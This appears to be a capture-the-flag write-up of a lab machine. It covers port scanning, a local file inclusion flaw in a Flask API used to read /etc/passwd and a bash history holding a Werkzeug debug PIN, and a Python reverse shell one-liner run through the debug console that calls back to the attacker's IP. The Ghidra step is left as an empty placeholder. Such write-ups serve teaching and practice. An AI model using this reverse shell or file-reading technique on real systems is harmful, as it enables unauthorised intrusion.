 nmap results
```
└─$ sudo nmap -sV -p- 10.10.179.209
[sudo] password for gomez22: 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-08 19:13 PDT
Nmap scan report for 10.10.179.209
Host is up (0.17s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
5000/tcp open  http    Werkzeug httpd 0.14.1 (Python 3.6.9)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


```

gobuster finds
```
/assets
/books.html
/images
/javascript
```

on /login.html
```
<!--Still Working on this page will add the backend support soon, also the debugger pin is inside sid's bash history file -->
```

on `http://10.10.179.209/assets/js/api.js`
```
function getAPIURL() {
var str = window.location.hostname;
str = str + ":5000"
return str;

    }


async function getUsers() {
    var u=getAPIURL();
    let url = 'http://' + u + '/api/v2/resources/books/random4';
    try {
        let res = await fetch(url);
	return await res.json();
    } catch (error) {
        console.log(error);
    }
}

async function renderUsers() {
    let users = await getUsers();
    let html = '';
    users.forEach(user => {
        let htmlSegment = `<div class="user">
	 	        <h2>Title : ${user.title}</h3> <br>
                        <h3>First Sentence : </h3> <br>
			<h4>${user.first_sentence}</h4><br>
                        <h1>Author: ${user.author} </h1> <br> <br>        
                </div>`;

        html += htmlSegment;
   });
   
    let container = document.getElementById("respons");
    container.innerHTML = html;
}
renderUsers();
//the previous version of the api had a paramter which lead to local file inclusion vulnerability, glad we now have the new version which is secure.
```

on port `:5000/api`
```
API Documentation
Since every good API has a documentation we have one as well!
The various routes this API currently provides are:

/api/v2/resources/books/all (Retrieve all books and get the output in a json format)

/api/v2/resources/books/random4 (Retrieve 4 random records)

/api/v2/resources/books?id=1(Search by a specific parameter , id parameter)

/api/v2/resources/books?author=J.K. Rowling (Search by a specific parameter, this query will return all the books with author=J.K. Rowling)

/api/v2/resources/books?published=1993 (This query will return all the books published in the year 1993)

/api/v2/resources/books?author=J.K. Rowling&published=2003 (Search by a combination of 2 or more parameters)
```

Received a result from `v1` api so we need to enumerate this -> `http://10.10.179.209:5000/api/v1/resources/books?id=1`


on :5000/console
```
    SECRET = "YsN605qwnNCuWMRxbTtT";
```



http://10.10.137.217:5000/api/v1/resources/books?show=/etc/passwd - we have LFI vuln
```
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
```

http://10.10.137.217:5000/api/v1/resources/books?show=/home/sid/.bash_history
`cd /home/sid whoami export WERKZEUG_DEBUG_PIN=123-321-135 echo $WERKZEUG_DEBUG_PIN python3 /home/sid/api.py ls exit`


```import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.13.46.127",1111));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")```

We're in...
```
$ whoami
whoami
sid

```

getting the magic number using ghidra(placeholder)
```
```

magic number!
```
 python3 -c "print(0x5dcd21f4^0x5db3^0x1116)"
1573743953
```

We entered the magic number and got a root shell!

